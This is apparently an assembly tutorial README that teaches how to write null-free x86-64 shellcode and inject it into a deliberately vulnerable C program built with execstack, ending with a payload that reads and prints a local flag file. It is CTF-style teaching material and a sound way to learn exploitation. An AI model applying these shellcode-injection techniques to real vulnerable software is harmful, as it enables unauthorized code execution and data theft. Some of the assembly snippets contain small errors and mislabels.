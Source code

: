 # A Challenge
Given the following C code can we write input that will actually be executed and *do something* like read a flag?
```C 
#include <string.h>
#include <unistd.h>

int main(int argc, char* argv[]){
	char* code[250];
	memset(code, 0, 250);
	
	read(0, code, 250);
	((void*)())code)(); // treat the code as a pointer to a function and run it
	return 0;
}

```
**To make this work we have to compile with specific flags to enable executing code from the stack. DONT DO THIS IN ANY OTHER CIRCUMSTANCES THIS IS SPECIFICALLY NOT INCLUDED SO THESE KINDS OF SECURITY VULNERABILITIES ARE MITIGATED**
Saving this code as vuln1.c we can create a target vulnerable binary using: 
```sh
gcc -g -z execstack -fno-stack-protector vuln1.c -o vuln1
```

## Creating Shell code
Well, if we want to read a flag we will need to first open a file, read it, and then write to STDOUT. 
We can start trying to craft a program in assembly to do exactly this, somewhat like the cat.asm program from 0x1.

And if we want any of this to happen when we pipe a raw stream of bits into the program we will need to manipulate the 
compiled and linked assembly. 

This kind of code is often called **shellcode** and it has unique qualities. For one, shell code has to be position
independent. Since we have no control of whats happening before our code is injected it must keep track of itself 
so as to not care about things like hardcoded or specific offsets in memory which will change randomly. 

Shellcode must also have null bytes removed, otherwise our stream of bits will have a NULL termination somewhere in it and 
will be incorrectly treated as a [string](https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x2a0-writing_shellcode.html)

I write a small shell script for testing out different Assembly, take the compiled output and remove the NULL bytes,
write this data to a "payload" file, and then pipe that payload into the vuln1 program:

```bash
#!/bin/bash

binaryPayload=$1
targetBinary=$2

nasm -f elf64 $1 -o runme.o
ld -s runme.o -o runme
rm runme.o

shellcode=$(objdump -d runme | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/')

echo 'open("payload","wb").write(b'"'"$shellcode"'"')' >> maker.py
python3 maker.py 
rm maker.py

# now pipe the shell code into our target and trace the system calls with strace
cat payload | strace ./$targetBinary
#EOF
```

Before reading a flag maybe lets try something simple, like.... printing a message to the console? 
We wrote code for echoing user supplied arguments in 0x1, but this is a bit different (also 64bit now). 

First thing we need to do is move the bytes of our message into memory. The write syscall is exepecting 
a pointer to our message to be in rdi. The rdx register needs to hold the length of our output. 
We also need to put out file descriptor for STDOUT (just 1) into rbx, and then move the value for the WRITE
syscall into rax. So can we try this?: 
```nasm
section .text
	global _start 
	
_start: 
	; move our message into memory
	xor rdi, rdi
	xor rcx, rcx 
	add rdi, 0x33323130 ;'0123'
	mov [rsi], rdi
	; the write syscall
	mov rdx, 5
	mov rax, 1
	mov rdi, 1
	syscall
	; exit
	xor rax, rax
	add al, 60
	syscall
```

*Lets try out our testshell script and save this as echo.asm:*


![echooo](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/helloShell.png)

By the way to figure out which registers need which arguments for every syscall you can find a table like this 

![syscalls](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/syscall_conventions.png)

from a website like [this](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

Awesome it worked! Okay so how about trying to read a flag or something?... more syscalls xD 

This one required a bit of thinking, because unlike the cat.asm program in 0x2 we can't setup
a local buffer to read into.  

First we meed to move the name of the file "flag.txt" into memory, and open it (Remember our byte order must be reversed because of how data is stored and read from the stack). 
That should be similar to the cat.asm program but slightly borrowing from what we just did: 
```nasm
_start: 
	xor rdi, rdi
	xor rcx, rcx
	mov rdi, 0x7478742e67616c66 	;txt.galf 
	mov [rdx], rsi
	xchg rdi, rdx
```
So we already have our filename now in rdi, now we just need to move the READ syscall number (2) into RAX and the file permissions mask into RDX
```nasm
	add al, 2
	xor rsi, rsi 
	mov rdx, 0777o
```
If were to just add an exit after this we should be able to see in strace whether we've opened 
the correct file for reading though: 

![missingNull](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/openFlagNoNullTermination.png)


Ahh interesting, the filename is getting mangled somehow. Well 'flag.txt' is 8 bytes,
and at 9th byte we can see from strace that we have an f instead of a null byte. ASCII 'f' in hex is 0x66, so lets just subtract that value:

![fopen](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FixingFileOpen.png)

**AWESOME IT WORKED!** 

So it looks like now we need to move the pointer to the file we just opened into rdi. Well using GDB I can see that its left in rax after the syscall.
Because we can't create a local buffer we could just use the space of the filename we created to hold the contents of what we read from the file?
So lets move that for the stack into rsi. Finally we need to move the length of the message into rdx (we made the flag file so we know its 27 bytes): 

![fileRead](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/FileRead.png)

**AYYY IT WORKED!** 

Okay now we just need to print the result! We can do that with the write syscall, which expects rdi to have pointer file (in this case STDOUT or 1).


Lets take a look at how we can debug this from GDB, here we can see the disassembly of the vuln1 main function:

![disass](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/disassMain.png) 

And also set a breakpoint for where our code will be called. We can run out program and pipe in the results from "payload" file using this syntax:
`r < payload` in the GDB terminal.

From here we can use stepi once to hop into our shellcode! 

![gdb](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/StepIn.png)

Okay now lets trying to use this visibilty to figure out how we can close the loop and actually write the contents of this flag file out. 
Stepping through our shellcode we can see that after the READ syscall we have the flag contents in RSI, which is already where we need our pointer to be for the WRITE CALL! 
The size is already in RDX from the READ call (which is the same place as WRITE), so all we need to do is:
	- Adjust RAX to be 1 for the WRITE syscall
	- change the file descriptor in RDI to 1 now because we want to write to STDOUT (before we read from an actual file)

![soClose](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/SoClose.png) 

well looking at GDB we can see RAX is 0x1b, so lets just subtract 0x1a. And then we can move 1 into rdi. And Voila!

![yay](https://raw.githubusercontent.com/cas1m1r/EDU/main/Assembly/0x4/success.png)
